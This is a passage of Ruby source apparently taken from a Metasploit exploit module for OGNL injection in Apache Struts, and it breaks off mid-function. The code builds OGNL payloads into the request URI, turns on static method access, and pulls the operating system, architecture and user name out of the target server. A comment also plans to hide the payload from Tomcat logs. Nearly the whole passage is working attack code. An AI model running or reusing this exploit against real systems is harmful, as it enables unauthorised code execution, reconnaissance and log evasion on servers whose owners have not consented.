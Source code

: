         # TODO: Embed OGNL in an HTTP header to hide it from the Tomcat logs
        uri = "/#{ognl}/#{datastore['ACTION']}"

        resp = send_request_cgi(
         #'encode'  => true,     # this fails to encode '\', which is a problem for me
          'uri'     => uri,
          'method'  => datastore['HTTPMethod'],
          'headers' => headers
        )

        if resp && resp.code == 404
          fail_with(Failure::UnexpectedReply, "Server returned HTTP 404, please double check TARGETURI and ACTION options")
        end

    =begin  #badchar-checking code
        print_status("Response code: #{resp.code}")
        #print_status("Response recv: BODY '#{resp.body}'") if resp.body
        if resp.headers['Location']
          print_status("Response recv: LOC: #{resp.headers['Location'].split('/')[1]}")
          if resp.headers['Location'].split('/')[1] == pre[1..-2]
            print_good("GOT 'EM!")
          else
            print_error("                       #{pre[1..-2]}")
          end
        end
    =end

        resp
      end

      def profile_target
        # Use OGNL to extract properties from the Java environment

        properties = { 'os.name': nil,          # e.g. 'Linux'
                       'os.arch': nil,          # e.g. 'amd64'
                       'os.version': nil,       # e.g. '4.4.0-112-generic'
                       'user.name': nil,        # e.g. 'root'
                       #'user.home': nil,       # e.g. '/root' (didn't work in testing)
                       'user.language': nil,    # e.g. 'en'
                       #'java.io.tmpdir': nil,  # e.g. '/usr/local/tomcat/temp' (didn't work in testing)
                       }

        ognl = ""
        ognl << %q|(#_memberAccess['allowStaticMethodAccess']=true).| if datastore['ENABLE_STATIC']
        ognl << %Q|('#{rand_text_alpha(2)}')|
        properties.each do |k,v|
          ognl << %Q|+(@java.lang.System@getProperty('#{k}'))+':'|
        end
        ognl = ognl[0...-4]
